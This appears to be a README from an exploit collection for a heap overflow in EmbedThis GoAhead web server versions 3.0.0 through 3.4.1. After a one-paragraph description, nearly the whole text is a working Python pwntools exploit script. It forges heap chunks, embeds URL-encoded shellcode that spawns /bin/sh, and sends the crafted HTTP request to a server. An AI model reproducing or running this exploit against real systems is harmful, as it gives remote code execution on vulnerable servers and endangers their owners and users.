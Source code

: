 INFO
----

EmbedThis GoAhead 3.0.0 through 3.4.1 does not properly handle path segments starting with a . (dot), which allows remote attackers to conduct directory traversal attacks, cause a denial of service (heap-based buffer overflow and crash), or possibly execute arbitrary code via a crafted URI.

EXP
---

    #!/usr/bin/env python
    # -*- coding: utf-8 -*-
    from pwn import *


    def hex2url(i):
        array = format(i, 'X')
        if len(array) % 2 != 0:
            array = '0' + array
        ret = ''.join('%' + array[i-2:i] for i in xrange(len(array), 0, -2))
        return ret


    def make_fake_chunk(chunk_addr):
        chunk = (chunk_addr & ~0xff) + 0x12f
        fd = int(format(chunk, '08X')[:6], 16)
        bk = chunk
        return fd, bk, chunk


    pro = remote('localhost', 80)

    chunk = 0x8057840

    fd, bk, fake_chunk = make_fake_chunk(chunk)
    print(hex(fd), hex(bk), hex(fake_chunk))

    shellcode = '%eb%16%90%90%90%90%90%90%90%90%90%90%90%90%90%90%90%90%90%90%90%90%90%90'
    shellcode += "%eb%19%5e%31%d2%89%56%07%52%56%89%e1%89%f3%31%c0%b0%0b%cd"
    shellcode += "%80%31%db%31%c0%40%cd%80%e8%e2%ff%ff%ff%2f%62%69"
    shellcode += "%6e%2f%73%68"


    shellcode_addr = fake_chunk + 4 * 4

    offset = 0

    exp = 'GET /'
    exp += hex2url(fd)                 # fd
    exp += hex2url(bk)                 # bk
    exp += hex2url(0xbffff2ac - 20)    # fd_next, stack
    exp += hex2url(shellcode_addr)     # bk_next

    pad = fake_chunk - chunk - 16
    print('pad:{0}'.format(pad))

    # fake chunk
    exp += 'A' * (fake_chunk - chunk - 16)
    exp += hex2url(0x01020304)   # prev_size
    exp += hex2url(0x01020304)   # size
    exp += hex2url(chunk - 8)    # fd
    exp += hex2url(chunk - 8)    # bk

    exp += shellcode

    print('--{}'.format(1024 - (fake_chunk - chunk) - 16 - len(shellcode)/3))

    exp += '/./'
    exp += hex2url(2) * 50
    exp += 'A' * (1024 - (fake_chunk - chunk) - 16 - len(shellcode) / 3 - 50)
    exp += '/.x'
    exp += ' HTTP/1.0\r\n\r\n'

    print(len(exp))
    print(exp)
    pro.send(exp)